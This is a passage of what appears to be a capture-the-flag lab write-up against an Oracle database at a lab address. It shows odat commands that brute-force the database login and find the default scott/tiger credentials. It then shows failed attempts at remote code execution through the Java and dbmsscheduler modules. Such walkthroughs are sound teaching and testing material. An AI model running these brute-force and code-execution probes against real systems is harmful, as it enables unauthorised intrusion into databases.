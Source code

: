 ```
```

Next, we will use odat's passwordguesser to guess the credentials that can authenticate to the oracle database. From the output, we can find a valid set of credentials, scott/tiger

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file accounts/accounts_multiple.txt -v

[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521
10:05:29 INFO -: Loading accounts stored in the accounts/accounts_multiple.txt file
10:05:29 INFO -: Separator between login and password fixed on '/'
10:05:29 INFO -: 668 paired login/password loaded
10:05:29 INFO -: Searching valid accounts on 10.10.10.82:1521/XE
10:05:29 INFO -: The 10.10.10.82-1521-XE.odat.save file has been created                            | ETA:  --:--:-- 
The login admin has already been tested at least once. What do you want to do:
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
10:49:01 INFO -: Impossible to execute the query 'SELECT platform_name FROM v$database': 'ORA-00942: table or view does not exist'
10:49:02 INFO -: OS version from getDatabasePlatfromName(): IBMPC/WIN_NT64-9.1.0
10:49:02 INFO -: Valid credential: scott/tiger (scott/tiger@10.10.10.82:1521/XE)  
[+] Valid credentials found: scott/tiger. Continue... 
100% |##############################################################################################| Time: 00:57:10 
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger  
```
## RCE on Oracle TNS Listener 

Since we have the credentials to the Oracle TNS Listener, we will try to do an RCE to the Oracle TNS Listener.
Firstly, we will try to use the Java stored procedure to check if we can execute code. Unfortunately, Java stored procedure is unable to execute or read files and so, it cannot be used to perform an RCE.

```
┌──(kali㉿kali)-[~]
└─$ sudo odat java -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --test-module

[1] (10.10.10.82:1521): Test if the DBMSScheduler library can be used
[1.1] JAVA library ?
[-] KO
```

Next, we will move on to test on dbmsscheduler library. Unfortunately, the dbmsscheduler library also cannot be used to perform an RCE attack.

```
┌──(kali㉿kali)-[~]
└─$ sudo odat dbmsscheduler -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --test-module

[1] (10.10.10.82:1521): Test if the DBMSScheduler library can be used
[1.1] DBMSSCHEDULER library ?
[-] KO
```

